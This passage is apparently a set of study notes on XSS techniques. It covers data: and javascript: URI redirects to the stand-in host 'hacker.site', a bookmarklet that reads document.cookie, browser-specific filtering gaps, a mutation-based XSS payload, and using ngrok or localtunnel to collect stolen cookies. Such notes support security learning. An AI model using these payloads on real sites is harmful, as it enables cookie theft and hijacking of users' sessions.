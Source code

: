 Redirect to hacker.site with **data** scheme:
```js
data:text/html,<script>document.location="http://hacker.site"</script>
```

### Access objects in the DOM via bookmarks
in images:
```bash
1. Create a bookmark: Alert cookies > javascript:alert(document.cookie)
2. Click
3. Browser execute JavaScript
# this bookmarks technique is also valid in browsers like Chromium, Internet Explorer and Safari
```

### Internet Explorer
- data scheme is limited, but javascript is available 

The only limit is similar to Chormium browsers, it will strip any leading **javascript:** from the pasted text before inserting into the search bar:
```js
javascript:document.location='http://hacker.site'
```

### Safari
- Denies javascript from the Smart Search Field but is allowed within **bookmarks**
- The **data scheme** is allowed too

### NoScript Security Suite
- Its a firefox extension, adds an additional security layer blocking all javascript and data URIs
- In contrast, as with other browsers, it **does not block** javascript and data URI schemes within **Bookmarks**.



## Exotic XSS Vectors

### mXSS - Mutation-Based
- This is a class of XSS vectors, which may occur in **innerHTML** and related FOM properties.
- With these kind of mutations, harmless string that clearly pass all XSS filters are transformed into XSS attack vectors by the browser layout engine itself.

Its an old technique, works in IE8 or older

To test: http://html5sec.org/innerhtml

moreover: http://www.businessinfo.co.uk/labs/mxss/
```js
<listing>&amp;lt;img src=1 onerror=alert(1)&gt;</listing>
```


## Create an external IP to get requests
You can use NGROK or localtunnel to open an external IP to receive cookies For example.
```bash
https://github.com/inconshreveable/ngrok
https://github.com/localtunnel/localtunnel
```
